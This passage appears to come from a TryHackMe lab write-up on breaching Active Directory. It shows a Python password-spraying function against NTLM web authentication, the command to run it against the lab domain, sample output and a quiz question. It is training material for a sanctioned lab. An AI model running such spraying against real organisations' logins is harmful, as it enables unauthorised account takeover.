 ```python
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```
This function takes our suggested password and the URL that we are targeting as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application would respond with a 200 HTTP (OK) code. If the pair is invalid, the application will return a 401 HTTP (Unauthorised) code.  

### Password Spraying
If you are using the AttackBox, the password spraying script and usernames textfile is provided under the /root/Rooms/BreachingAD/task3/ directory. We can run the script using the following command:  
`python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>`  
We provide the following values for each of the parameters:
- <userfile> - Textfile containing our usernames - "usernames.txt"
- <fqdn> - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
- <password> - The password we want to use for our spraying attack - "Changeme123"
- <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

Using these parameters, we should get a few valid credentials pairs from our password spraying attack.
```
[thm@thm]$ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[...]
[*] Password spray attack completed, [X] valid credential pairs found
```
Using a combination of OSINT and NetNTLM password spraying, we now have our first valid credentials pairs that could be used to enumerate AD further!

----------------------------------------Answer the questions below--------------------------------------------------  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Breaching%20Active%20Directory_03.png" width="75%" height="75%">  
How many valid credentials pairs were found by the password spraying script?  

